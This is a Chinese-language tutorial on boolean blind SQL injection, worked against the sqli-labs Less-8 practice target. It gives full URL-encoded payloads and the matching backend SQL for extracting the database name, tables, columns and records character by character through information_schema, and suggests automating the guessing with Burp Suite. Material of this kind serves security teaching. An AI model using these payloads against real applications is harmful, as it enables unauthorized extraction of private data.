

# 盲注

盲注就是在SQL注入过程中，SQL语句执行后，查询到的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。通俗的讲就是在前端页面没有显示位，不能返回sql语句执行错误的信息，输入正确和错误返回的信息都是一致的，这时候我们就需要使用页面的正常与不正常显示来进行sql注入。

类似于无法开口说话的人，只能通过点头和摇头来告诉你答案的正确与否。

## 布尔盲注

在页面中，如果正确执行了用户构造的 SQL 语句，则返回一种页面，如果 SQL 语句执行错误，则执行另一种页面。基于两种页面，来判断 SQL 语句正确与否，达到获取数据的目的。

### 注入过程

* 判断是否存在注入
* 获取数据库长度
* 逐字猜解数据库名
* 猜解表名数量
* 猜解某个表名长度
* 逐字猜解表名
* 猜解列名数量
* 猜解某个列名长度
* 逐字猜解列名
* 判断数据数量
* 猜解某条数据长度
* 逐位猜解数据

### 判断是否存在注入

* 法一：and

  利用语句`1 and 1=1`和`1 and 1=2`以及`1' and 1=1%23`和`1' and 1=2%23`进行判断。如果输入`1 and 1=1`和`1 and 1=2`页面返回不一样，则说明是数字型盲注；如果输入`1' and 1=1%23`和`1' and 1=2%23`页面返回不一样，则说明是字符型盲注。

* 法二：1asdf

  如果输入`1asdf`和`1 `页面返回不一样，则说明是数字型盲注，反之则为字符型盲注。

### 获取数据库名长度

* length() 是一个用来获取字符串长度的内置函数。

  单位是字节，utf8编码下,一个汉字三个字节，一个数字或字母一个字节。

  ​						gbk编码下,一个汉字两个字节，一个数字或字母一个字节。 

* char_length()：单位为字符，不管汉字还是数字或者是字母都算是一个字符。

因为无法通过页面数据回显获取数据，所以只能靠判断对错的方式来获取数据，可以使用MySQL中内置的length()函数获取长度。

* 先使用`<`或`>`确定一个大致的范围，并逐步缩小范围，最后使用`=`确定数据库名的长度

实战中应采取**爆破**方式，但此处为了让各位能更好的理解，故给出一个手工测的例子。例子如下：

先测试大于5

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3E5%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())>5#' LIMIT 0,1;
;
```

> 可能会有人有疑问，这个`SQL`后面下面怎么有个分号单列一行，这是因为上一行后面有一个`#`。`#`号会把后面的内容全部注释掉，执行的时候会忽略掉后面的内容，但`SQL`语句是以分号结尾的，所以在第二行单列了一个分号。
>
> 后续凡是涉及到该靶场均存在此问题，便不再重复赘述。

网站有返回


再测试小于10

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C10%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<10#' LIMIT 0,1;
;
```

网站有返回


然后测试小于8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<8#' LIMIT 0,1;
;
```

网站无返回


再测试8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())=8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())=8#' LIMIT 0,1;
;
```

网站有返回，确定长度为8。


### 获取数据库名

由于没有回显，所以无法像`union`联合查询那样可以一下子把数据库名给爆出来，只能通过`substr`函数以截取字符串的方式进行获取。

* `substr(string, start, length) `

  `substr`截取字符串，`string`是要截取的字符串，`start`是从哪个位置开始，`length` 是截取的长度

  注意，该函数有3个参数并且mysql中的`start`从1开始的。

* 数据库命名规则

  采用26个英文字母（**区分大小写**）和0-9的自然数(经常不需要)，加上下划线`_`组成，命名简洁明确，多个单词用下划线`_`分隔。

接下来就是一个一个的进行截取，直到截取到最后一位为止。

下面以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20substr(database(),1,1)=%27s%27%23
SQL:
SELECT * FROM users WHERE id='1' and substr(database(),1,1)='s'#' LIMIT 0,1;
;
```

网站的反应为：


但是这样一个一个的尝试太麻烦了，耗时也多。

所以通过将猜测的内容转换为ASCII码，然后使用`ascii()`函数。4位ASCII码对照表见下：


下面同样以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115#' LIMIT 0,1;
;
```

网站的反应为：


使用此方法就可以直接通过`Burpsuite`爆破出数据库名。

为了避免有些人不按照命名规则命名，可以对ASCII码值33到126进行遍历枚举。


成功爆破出数据库库名`security`：

```
115		101		99		117		114		105		116		121
s		e		c		u		r		i		t		y
```


### 获取表名

#### 获取表的数量

* `count()`

  统计数据表中包含的记录行的总数，或者根据查询结果返回列中包含的数据行。

由于无法看到有多少个表，为了避免无效查询，所以可以先获取表的数量，可以使用count()函数进行获取。

方法同获取数据库名长度，直接进行爆破，例子如下

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20%27security%27)=4%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(table_name) from Information_schema.tables where table_schema = 'security')=4#' LIMIT 0,1;
;
```


#### 获取表名长度

* `limit`

  用于强制返回指定的记录行数，语法如下

  ```
  select * from table_name limit [offset，] rows
  offset：指定第一个返回记录行的偏移量（即从哪一行开始返回），注意：初始行的偏移量为0。
  rows：返回行数的数量。
  ```

方法同获取数据库名长度，但是由于表名可能不止一个。当表名为多个的时候，直接将下面的`SQL`语句拿到数据库中运行将会报错。

```
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database()))=1#' LIMIT 0,1;
;
```


> `length((select table_name from Information_schema.tables where table_schema = database()))`此处的括号并没有多敲，`length()`自带一个括号，`select`的结果也需要一个括号。去掉一层括号，数据库将会报错。~~（不去掉括号也会报错）~~

所以此处需要用到`limit`来控制行数，然后再一一爆破。

> 之所以不用`group_concat`是为了防止有些人不讲武德，在表名里也用除下划线以外的符号，比如`,`

下面以第一个表为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6%23
SQL:
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6#' LIMIT 0,1
;
```


#### 获取表名

方法同获取数据库名一样，截取字符串，转化为比较ASCII码，通过`BurpSuite`爆破得到表名。

下面为第一个表的第一位的URL及后端执行的SQL语句：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1),1,1))=101%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select table_name from Information_schema.tables where table_schema = database() limit 0,1),1,1))=101#' LIMIT 0,1
;
```

爆破第一个表的表名结果：`emails`

```
101		109		97		105		108		115
e		m		a		i		l		s
```


### 获取列名

#### 获取表中列数

同获取数据库中表的数量方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(column_name)%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database())=2%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(column_name) from Information_schema.columns where table_name = 'emails' and table_schema=database())=2#' LIMIT 0,1
;
```


#### 获取列名长度

同获取数据库中表名长度方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1))=2%23
SQL:
SELECT * FROM users WHERE id='1' and length((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1))=2#' LIMIT 0,1
;
```


#### 获取列名

同获取数据库中表名方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1),1,1))=105%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1),1,1))=105#' LIMIT 0,1
;
```

第一个列名为：`id`

```
105		100
i		d
```



### 获取记录

获取记录方法同获取列名方法一样，故不再赘述，直接给出URL和后端程序所执行的SQL语句。

#### 获取记录条数

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(id)%20from%20security.emails)=8%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(id) from security.emails)=8#' LIMIT 0,1
;
```

#### 获取记录长度

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20id%20from%20security.emails%20limit%200,1))=1%23
SQL:
SELECT * FROM users WHERE id='1' and length((select id from security.emails limit 0,1))=1#' LIMIT 0,1
;
```

#### 获取记录内容

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20id%20from%20security.emails%20limit%200,1),1,1))=49%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select id from security.emails limit 0,1),1,1))=49#' LIMIT 0,1
;
```

